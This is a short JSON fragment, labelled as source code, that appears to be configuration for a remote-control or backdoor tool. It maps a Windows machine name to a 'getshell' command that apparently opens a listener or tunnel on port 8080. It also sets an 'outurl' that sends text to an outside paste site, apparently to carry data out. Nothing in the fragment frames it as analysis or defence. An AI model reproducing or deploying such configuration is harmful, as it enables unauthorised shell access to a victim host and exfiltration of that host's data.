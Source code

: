 
{
    "WIN-MK2U04MLL3I": {
        "getshell": "l t 127.0.0.1 8080~open"
    },
    "all": {
        "outurl": "http://kl1p.com/oopkc?save=true&id=&type=plain&name=oopkc&nid=&param=&client=web&text="
    }
}
